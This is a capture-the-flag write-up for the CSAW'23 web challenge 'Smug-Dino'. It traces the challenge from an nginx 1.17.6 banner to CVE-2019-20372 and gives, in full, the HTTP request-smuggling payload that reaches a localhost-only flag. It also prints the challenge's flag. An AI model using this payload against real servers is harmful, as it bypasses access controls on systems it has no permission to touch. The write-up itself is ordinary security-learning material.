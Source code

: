 # CSAW'23

## Smug-Dino

> 
> Don't you know it's wrong to smuggle dinosaurs... and other things?
>
>  Author: rollingcoconut
>

Tags: _web_

## Solution
For this challenge we get a small web application. There's not much to do. In the menu bar there is a `Flag` entry. After clicking we are forwarded to `http://localhost:3009/flag.txt`, not very helpful.

Another option in the menu bar is `Hint`. After clicking this we are requested to give some information to get the hint. The information required are `Server name` and `Server Version`. This can be looked up in the response header.

```bash
Server: nginx/1.17.6
```

Entering this information gives us some good hints.

```bash

HINT: #1

We believe the item you seek is only accessible to localhost clients on the server; 
All other requests to /flag will be processed as a 401. 


It seems the server is issuing 302 redirections to handle 401 erors...
Is it possible to use the redirection somehow to get the localhost flag?



HINT: #2

CVE 2019-....

```

A quick google search for `CVE 2019 nginx 1.17.6` gives us this interesting vulnerability [`CVE-2019-20372`](https://nvd.nist.gov/vuln/detail/cve-2019-20372). Request smuggling it is, that also fits the challenge title.

Next is to capture the `/flag` call with `Burp`, forward to `repeater` and add the smuggling payload.

```bash
GET /flag HTTP/1.1
Host: web.csaw.io:3009
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://web.csaw.io:3009/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: connect.sid=s%3AqujNyjZZvcMzGaukbHN-PwDKY-cQuMit.aCujuaFvpR9WYhNeMvHgg1IyFZH3cSkEG4Vq%2BD2Nl0w
Connection: keep-alive

GET /flag.txt HTTP/1.1
Host: localhost
```

After sending the requests we get the flag.

Flag `csawctf{d0nt_smuggl3_Fla6s_!}`